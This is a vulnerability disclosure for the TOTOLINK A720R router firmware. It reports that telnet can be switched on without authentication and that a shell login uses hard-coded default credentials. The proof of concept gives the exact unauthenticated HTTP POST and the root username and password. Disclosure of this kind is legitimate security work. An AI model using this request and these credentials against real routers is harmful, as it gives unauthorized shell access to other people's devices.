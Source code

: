 # TOTOLINK Vulnerability

Vendor:TOTOLINK

Product:A720R

Version:A720R_Firmware(V4.1.5cu.470_B20200911)

Type:Unsafe telnet settings

Author:Huizhao Wang, Chuan Qin

Institution:wanghuizhao@iie.ac.cn, qinchuan@iie.ac.cn

## Vulnerability description

We found a default telnet username and password and telnet service can be started without authorization vulnerability in TOTOLINK Technology router with firmware which was released recently, allows remote attackers to login shell by using default username and password.

![image-20210616094749614](A720R_default_telnet_info.assets/image-20210616094749614.png)

Telnet service can be started without authorization, so attackers can start service first, and then log in with the default username and password.

## POC

First, send the following POST request to start telnet service without authorization.

```http
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
Content-Length: 48
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.101 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/telnet.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"telnet_enabled":"1","topicurl":"setTelnetCfg"}
```

Next, `telnet 192.168.0.1` enter the default username and password(root:cs2012) to log in to the shell.
